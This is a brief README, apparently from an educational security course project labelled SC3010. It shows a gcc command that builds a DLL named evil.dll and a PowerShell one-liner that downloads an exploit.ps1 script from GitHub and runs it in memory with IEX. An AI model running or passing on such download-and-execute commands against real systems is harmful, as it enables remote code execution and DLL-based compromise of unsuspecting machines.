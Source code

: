 # SC3010 Project

The following codes are educational. 

To create DLL files 

`gcc -shared -o evil.dll dll.c`


To run exploit

```
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/Pwspang/SC3010-Codes/main/exploit.ps1');
```